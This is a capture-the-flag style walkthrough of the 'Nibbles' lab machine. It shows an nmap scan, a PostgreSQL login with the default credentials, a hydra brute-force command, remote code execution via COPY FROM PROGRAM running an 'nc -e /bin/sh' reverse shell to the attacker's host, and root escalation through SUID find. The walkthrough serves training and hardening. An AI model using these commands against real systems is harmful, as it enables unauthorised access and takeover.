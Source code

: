 ```yaml
---
layout: post
title: PG | Nibbles
subtitle: This machine will highlight why we have hardening guidelines.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 09:34 UTC
Nmap scan report for 192.168.191.47
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.81 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80

![Nibbles](/assets/img/NibblesPG(1).png)

After digging around the contents of the website and running a gobuster sub-directory scan there was no significant entry point for a foothold

![Nibbles](/assets/img/NibblesPG(2).png)

## PostgreSQL (TCP/5437)

PostgreSQL is a relational database management system software commonly used on Unix systems.

I first attempted to connect to postgres using the default username of "postgres" and a null password, however it prompted for password authentication

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql: error: connection to server at "192.168.191.47", port 5437 failed: fe_sendauth: no password supplied
~~~

I then attempted a few manual password attempts of "password" and "postgres", and postgres was the password!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 

~~~

I then enumerated the available databases using "\l" cmdlet and listed our user's privileges via "\du+" which showed we have Superuser privileges

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
                                                       List of databases
   Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
 template0 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
(3 rows)

postgres=# \du+
                                    List of roles
 Role name |                         Attributes                         | Description 
-----------+------------------------------------------------------------+-------------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | 
~~~

After researching and with the help of [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) I found a way to read directories and files by creating a database table and populating it with data on the targets local filesystem, which identified a user on the system named 'wilson'

![Nibbles](/assets/img/NibblesPG(3).png)

I then ran a hydra password brute force attempt on the wilson user account through the FTP service, but had no success so decided to dig deeper into what Superusers can do.
~~~shell
┌──(kali㉿kali)-[/usr/share/seclists/Passwords/Common-Credentials]
└─$ hydra -l wilson -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ftp://192.168.191.47
~~~

I found a [RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) exploit that works for Superusers on PostgreSQL version 9.3+ and used it to execute a reverse shell

Create listener on port 80

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
~~~

Perform RCE
~~~shell
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'nc -e /bin/sh 192.168.45.173 80';
~~~

And we recieved our reverse shell foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.173] from (UNKNOWN) [192.168.191.47] 42184

whoami
postgres
~~~

I ran a scan using linpeas.sh which identified the "find" binary has the SUID bit set, which can be used to elevate privileges through the -exec option of the find cmdlet as discussed in [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) list of binaries and bypasses
~~~shell
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found                                                                                                                                                            
strace Not Found                              
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
~~~

Executing the PrivEsc
~~~shell
$ find . -exec /bin/sh -p \; -quit
# whoami
root
~~~
